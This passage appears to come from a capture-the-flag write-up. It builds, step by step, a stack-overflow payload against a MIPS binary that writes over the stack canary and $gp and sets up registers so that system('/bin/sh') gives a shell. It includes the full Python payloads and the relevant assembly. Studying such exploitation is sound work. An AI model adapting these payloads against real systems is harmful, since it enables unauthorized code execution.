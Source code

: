 ```py
payload = (
    b"A" * 0x2c  # fill till stack canary
    + p32(0x400B0C)  # write the stack canary (upto $buffer+0x30)
    + b"B" * (0x48 - 0x30)  # fill till $gp
    + p32(0x4AA330)  # write $gp (upto $buffer+0x4c)
    + b"C" * (0x128 - 0x4c)  # fill till command
    + b"system\x00"  # write the command (upto $buffer+0x12f)
    + b"D" * (0x220 - 0x12f)  # fill till system_str
    + b"system\x00"  # write the system_str (upto $buffer+0x227)
    + b"E"  # fill till arg1
    + b"/bin/sh\x00"  # write arg1 (upto $buffer+0x230)
)
```

But we run into one more issue.

```sh
sh: 1: AAAA/sh: not found
```

The arguments to `system` get corrupted, because in `develper_power_management_portal` the `s` registers are given values loaded from the stack, and in `main`, values from `s` registers are stored onto the stack.
<br>
The value of `arg1` becomes `"AAAA/sh"`. The value of `arg2`, `arg3`, `arg4` becomes `"AAAA"`.
We desire arguments other than `arg1` to be empty string, i.e., `\x00`, so a simple solution is to replace all `"A"` with `"\x00"` in the payload.

```asm
        00400b1c af d4 01 f8     sw         s4,0x1f8(s8)
```

The above instruction stores `$s4` at `s8+0x1f8 = sp+0x240 = $buffer+0x228`, which is same as `arg1`.
So, we must ensure that `$s4` is equal to `/bin`.

```asm
        00400ed8 8f b4 00 30     lw         s4,0x30(sp)
```

The above instruction loads `$s4` from `sp+0x30 = $buffer+0x18`. So, we modify our payload accordingly.

```py
payload = (
    b"\x00" * 0x18  # fill till $s4
    + b"/bin"  # write $s4 (upto $buffer+0x1c)
    + b"\x00" * (0x2c - 0x1c)  # fill till stack canary
    + p32(0x400B0C)  # write the stack canary (upto $buffer+0x30)
    + b"B" * (0x48 - 0x30)  # fill till $gp
    + p32(0x4AA330)  # write $gp (upto $buffer+0x4c)
    + b"C" * (0x128 - 0x4c)  # fill till command
    + b"system\x00"  # write the command (upto $buffer+0x12f)
    + b"D" * (0x220 - 0x12f)  # fill till system_str
    + b"system\x00"  # write the system_str (upto $buffer+0x227)
    + b"E"  # fill till arg1
    + b"/bin/sh\x00"  # write arg1 (upto $buffer+0x230)
)
```
